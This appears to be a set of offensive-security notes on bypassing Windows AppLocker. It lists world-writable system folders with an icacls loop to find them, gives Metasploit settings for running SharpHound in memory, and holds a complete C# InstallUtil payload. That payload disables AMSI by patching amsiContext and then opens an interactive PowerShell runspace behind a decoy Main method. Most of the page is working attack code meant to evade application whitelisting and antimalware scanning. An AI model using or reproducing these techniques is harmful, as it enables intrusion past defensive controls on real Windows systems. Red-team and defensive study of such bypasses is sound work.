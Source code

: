 # AppLocker CockBlocker

- Bascially makes life a pain in the ass by preventing execution of your favourite executables unless they are in whitelisted location

Reference: (https://juggernaut-sec.com/applocker-bypass/)

## Checking if AppLocker is live

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Check if Default World-Writeable Folders are well Writable for your User

Compile the following into a txt file

```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

Then on a cmd prompt, run the following script to see which folders you have Write perms

```cmd
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
```

## Via ADS



##  Via God-Tier Meterpreter's Post Exploit Module Execute dotnet Assembly

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/execute_dotnet_assembly.md

```
set SESSION 1

set DOTNET_EXEC <path to the exe you want executed>

set ARGUMENTS <the flags and commands you will pass to the DOTNET_EXEC>

# For example, if i want to run sharphound.exe

set DOTNET_EXEC ./SharpHound.exe

set ARGUMENTS -c ALL --outputdirectory C:\Users\Public
```


## Interactive CInstaller Bypassess AMSI

- Use with InstallUtil. This grants you a runspace to execute powershell in full CLM

```powershell
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Collections.ObjectModel;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;


namespace CInstaller
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd;
            Runspace rs = RunspaceFactory.CreateRunspace();
            PowerShell ps = PowerShell.Create();
            rs.Open();
            ps.Runspace = rs;

            // disable amsi
            ps.AddScript(@"$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "" * iUtils"") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "" * Context"") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)");
            ps.Invoke();

            while (true)
            {
                Console.Write("PS " + Directory.GetCurrentDirectory() + ">");
                Stream inputStream = Console.OpenStandardInput();

                cmd = Console.ReadLine();

                if (String.Equals(cmd, "exit"))
                    break;

                Pipeline pipeline = rs.CreatePipeline();
                pipeline.Commands.AddScript(cmd);

                pipeline.Commands.Add("Out-String");

                try
                {
                    Collection<PSObject> results = pipeline.Invoke();
                    StringBuilder stringBuilder = new StringBuilder();

                    foreach (PSObject obj in results)
                    {
                        stringBuilder.Append(obj);
                    }

                    Console.WriteLine(stringBuilder.ToString().Trim());
                }
                catch (Exception e)
                {
                    Console.WriteLine(e.ToString());
                }


            }

            rs.Close();
        }
    }

}
```

